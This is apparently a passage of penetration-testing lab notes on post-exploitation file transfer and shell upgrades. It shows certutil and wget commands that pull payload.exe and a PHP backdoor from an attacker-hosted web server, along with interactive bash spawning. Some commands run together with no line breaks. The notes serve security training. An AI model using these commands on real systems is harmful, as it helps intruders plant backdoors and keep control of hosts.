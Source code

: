 * Files can be downloaded from a browser or using a `GET` request

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-9fda9e6cda6af72c652286651e6ce3dbd0958793%2Fimage-20230428215801961.png?alt=media" alt=""><figcaption></figcaption></figure>

#### Transferring Files <a href="#transferring-files-1" id="transferring-files-1"></a>

**Windows**

* Set up a web server to host the `payload.exe` file

\# Attacker machinecd /root/Desktop/ # payload.exe must be herepython3 -m http.server 80

* After gaining access to the Windows target system and spawned a command shell session, download the payload file on the target system using the `certutil` tool in `cmd`.

\# Windows Target machinecd C:\Tempcertutil -urlcache -f http://\<ATTACKER-IP>/payload.exe payload.exe

**Linux**

* After exploiting the Linux target, transfer the `php-backdoor.php` file to the target.
* 2 terminal sessions are necessary - use `tmux` utility to get more sessions.

​[**`tmux`**](https://github.com/tmux/tmux/wiki) - _is a program, **terminal multiplexer**, which runs in a terminal and allows multiple other terminal programs to be run inside it_sudo apt install tmux -y# Attacker machinetmux# ... Exploitation with MSFconsole in Terminal 0 ...# CTRL+B and then C to open a new terminal session​cd /usr/share/webshells/php/ip -br -c a192.219.50.2python3 -m http.server 80# CTRL+B then 0 (zero) to navigate to the first Terminal session# Target machine/bin/bash -iwget http://192.219.50.2/php-backdoor.phpwget http://\<ATTACKER\_IP>/php-backdoor.php

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-3881bc1a643bbd134eba3dcaeed1b07ea5383ec9%2Fimage-20230428232055646.png?alt=media" alt=""><figcaption></figcaption></figure>

### Interactive Shells <a href="#interactive-shells" id="interactive-shells"></a>

> 🔬 Interactive shells techniques are covered in an INE vulnerable Lab. Commands are below, assuming the target SAMBA service is already exploited through the `exploit/linux/samba/is_known_pipename` MSF module.

* After the exploitation (using `MSFconsole`, `netcat`, etc), a **non-interactive shell** is obtained since it doesn't provide with a prompt
  * This is a command shell session

Non-interactive Shell

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-6779d49a717c21e3f41b609b3f42d87afae5543e%2Fimage-20230428234859491.png?alt=media" alt=""><figcaption></figcaption></figure>

* Display the list of **shells** on the target system

cat /etc/shells# /etc/shells: valid login shells/bin/sh/bin/dash/bin/bash/bin/rbash​/bin/bash -i​/bin/sh -i

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-1437180395d983df1ebed08f7894baa3b9ef8623%2Fimage-20230428234334800.png?alt=media" alt=""><figcaption></figcaption></figure>

#### Spawn [TTY Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#spawn-shells)​ <a href="#spawn-tty-shells" id="spawn-tty-shells"></a>
